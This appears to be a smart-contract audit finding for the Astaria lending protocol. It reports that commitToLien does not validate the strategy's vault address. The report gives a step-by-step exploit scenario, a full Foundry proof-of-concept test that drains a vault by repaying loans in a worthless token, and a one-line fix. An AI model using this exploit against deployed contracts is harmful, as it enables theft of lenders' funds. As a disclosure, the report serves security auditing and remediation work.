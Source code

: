 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-08

# [Lack of StrategyDetailsParam.vault validation allows the borrower to steal all the funds from the vault](https://github.com/code-423n4/2023-01-astaria-findings/issues/409) 

# Lines of code

https://github.com/code-423n4/2023-01-astaria/blob/main/src/VaultImplementation.sol#L287


# Vulnerability details

## Impact
When a borrower takes a loan, Strategy details are passed along with other required data, and through the overall **commitToLien** flow, all the data are validated except the StrategyDetailsParam.vault 

```sh
  struct StrategyDetailsParam {
    uint8 version;
    uint256 deadline;
    address vault;
  }
```

A borrower then can pass different vault's address, and when creating a lien this  vault is considered. Later, the borrower makes a payment, it reads the asset from this vault. Thus, the borrower can take loans and repay with whatever token. 

https://github.com/code-423n4/2023-01-astaria/blob/main/src/LienToken.sol#L849

### Exploit Scenario 
Allow me to describe a scenario where the borrower can steal all the funds from all vaults that support his/her collateral:

1. **Bob** owns an NFT.
2. **Bob** sends his NFT to the collateral token contract.
3. **Bob** creates his own private vault **BobVault** with an asset that he created **FakeToken** which doesn’t have any value in the market (e.g. just a new ERC20 token).
4. **Bob** takes a loan from **Vault1** (while passing **BobVault** in the strategy param).
6. **Bob** pay the loan with his **FakeToken** instead **Vault1**'s asset.
7. **Bob** then repeats the steps from point 4 again till **Vault1** is drained.
8. **Bob** now has all the funds from **Vault1** with **zero** debt.
9. **Strategist** has the same amount of **Vault1**'s funds but in **FakeToken**.

This exploit can be done with other vaults draining all the funds.
To prove this, I've coded the scenario below.


## Proof of Concept


1. Please create a file with a name **StealAllFundsExploit.t.sol** under **src/test/** directory.

2. Add the following code to the file.

```sh
pragma solidity =0.8.17;

import "forge-std/Test.sol";

import {Authority} from "solmate/auth/Auth.sol";
import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";
import {MockERC721} from "solmate/test/utils/mocks/MockERC721.sol";
import {
  MultiRolesAuthority
} from "solmate/auth/authorities/MultiRolesAuthority.sol";

import {ERC721} from "gpl/ERC721.sol";
import {SafeCastLib} from "gpl/utils/SafeCastLib.sol";
import {IAstariaRouter, AstariaRouter} from "../AstariaRouter.sol";
import {VaultImplementation} from "../VaultImplementation.sol";
import {PublicVault} from "../PublicVault.sol";
import {TransferProxy} from "../TransferProxy.sol";
import {WithdrawProxy} from "../WithdrawProxy.sol";
import "./TestHelpers.t.sol";
import {MockERC20} from "solmate/test/utils/mocks/MockERC20.sol";
import {IVaultImplementation} from "../interfaces/IVaultImplementation.sol";



contract AstariaTest is TestHelpers {
  using FixedPointMathLib for uint256;
  using CollateralLookup for address;
  using SafeCastLib for uint256;


  ILienToken.Details public lienDetails =
      ILienToken.Details({
        maxAmount: 50 ether,
        rate: (uint256(1e16) * 150) / (365 days),
        duration: 10 days,
        maxPotentialDebt: 50 ether,
        liquidationInitialAsk: 500 ether
      });


  function __createPrivateVault(address strategist, address delegate,address token)
    internal
    returns (address privateVault)
  {
    vm.startPrank(strategist);
    privateVault = ASTARIA_ROUTER.newVault(delegate, token);
    vm.stopPrank();
  }    

  
 function testPayWithDifferentAsset() public {
    TestNFT nft = new TestNFT(2);
    address tokenContract = address(nft);
    uint256 initialBalance = WETH9.balanceOf(address(this));

    // Create a private vault with WETH asset
    address privateVault = __createPrivateVault({
      strategist: strategistOne,
      delegate: address(0),
      token: address(WETH9)
    });


    _lendToPrivateVault(
      Lender({addr: strategistOne, amountToLend: 500 ether}),
      privateVault
    );
    
    // Send the NFT to Collateral contract and receive Collateral token
    ERC721(tokenContract).safeTransferFrom(address(this),address(COLLATERAL_TOKEN),1,"");

    // generate valid terms
    uint256 amount = 50 ether; // amount to borrow        
    IAstariaRouter.Commitment memory c = _generateValidTerms({
      vault: privateVault,
      strategist: strategistOne,
      strategistPK: strategistOnePK,
      tokenContract: tokenContract,
      tokenId: 1,
      lienDetails: lienDetails,
      amount: amount,
      stack: new ILienToken.Stack[](0)
    });

    // Attack starts here
    // The borrower an asset which has no value in the market
    MockERC20 FakeToken = new MockERC20("USDC", "FakeAsset", 18); // this could be any ERC token created by the attacker
    FakeToken.mint(address(this),500 ether);
    // The borrower creates a private vault with his/her asset
    address privateVaultOfBorrower = __createPrivateVault({
      strategist: address(this),
      delegate: address(0),
      token: address(FakeToken)
    });

    uint8 i;
    for( ; i < 10 ; i ++) {
      // Here is the exploit: commitToLien on privateVault while passing differentVault in the strategy
      c.lienRequest.strategy.vault = privateVaultOfBorrower;   
      (uint256 lienId, ILienToken.Stack[] memory stack , uint256 payout) = IVaultImplementation(privateVault).commitToLien(
          c,
          address(this)
      );
      console.log("Take 50 ether loan#%d", (i+1));

      // necessary approvals
      FakeToken.approve(address(TRANSFER_PROXY), amount);
      FakeToken.approve(address(LIEN_TOKEN), amount);

      // pay the loan with FakeToken 
      ILienToken.Stack[] memory newStack = LIEN_TOKEN.makePayment(
        stack[0].lien.collateralId,
        stack,
        uint8(0),
        amount
      );
      console.log("Repay 50 FakeToken loan#%d", (i+1));
    }


    // assertion
    console.log("------");
    // Vault is drained
    console.log("PrivateVault Balance: %d WETH", WETH9.balanceOf(privateVault));
    assertEq(WETH9.balanceOf(privateVault), 0); 
    // The borrower gets 500 ether
    console.log("Borrower Balance: %d WETH", WETH9.balanceOf(address(this)));
    assertEq(WETH9.balanceOf(address(this)), initialBalance + 500 ether);
    // strategist receives the fake token
    console.log("Strategist Balance: %d FakeToken", FakeToken.balanceOf(strategistOne));
    assertEq(FakeToken.balanceOf(strategistOne), 500 ether);

  }
 
}


```

3. Then run the forge test command as follows (replace $FORK_URL with your RPC URL): 

```sh
 forge test --ffi --fork-url $FORK_URL --fork-block-number 15934974 --match-path src/test/StealAllFundsExploit.t.sol -vv
```


The test will pass. I've added comments in the code explaining the steps.

*Note:The attack isn't possible when using AstariaRouter* 

## Tools Used
Manual analysis

## Recommended Mitigation Steps

In VaultImplementation's  `commitToLien`  function, add the following validation:
```sh
require(address(this) == params.lienRequest.strategy.vault,"INVALID VAULT");
```

Run the PoC test above again, and `testPayWithDifferentAsset` should fail.